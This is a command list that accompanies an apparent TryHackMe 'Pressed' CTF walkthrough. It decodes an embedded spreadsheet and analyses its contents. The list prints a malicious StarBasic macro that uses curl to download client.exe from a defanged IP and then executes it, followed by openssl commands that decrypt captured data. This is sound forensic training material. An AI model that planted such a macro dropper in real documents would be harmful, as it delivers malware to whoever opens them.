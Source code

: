 ## TryHackMe room Pressed https://tryhackme.com/room/pressedroom

### TryHackMe Pressed YouTube Video Walk Through: 

[TryHackMe Pressed Full Walkthrough 2025](#)

**Below commands used on TryHackMe room Pressed YouTube video walk through:**

```
cat sheet.txt | base64 -d > sheet.ods
```
```
unzip sheet.ods
cat Basic/Standard/evil.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="evil" script:language="StarBasic" script:moduleType="normal">Sub Main

    Shell(&quot;cmd /c curl 10[.]13[.]44[.]207/client.exe -o C:\ProgramData\client.exe&quot;)
    Shell(&quot;cmd /c echo VEhN******F5Xw==&quot;)
    Shell(&quot;C:\\ProgramData\\client.exe&quot;)
```

convert text to hex:

```
echo -n 'rhI1Yaz****Ivl8ps6MJj' | xxd -p
```

Using openssl to decrypt aes

```
openssl enc -aes-256-cbc -d -K 726849315961******149766c387073364d4a6a -iv 70457738****34736a -in cmd.bin -out cmd.txt
```

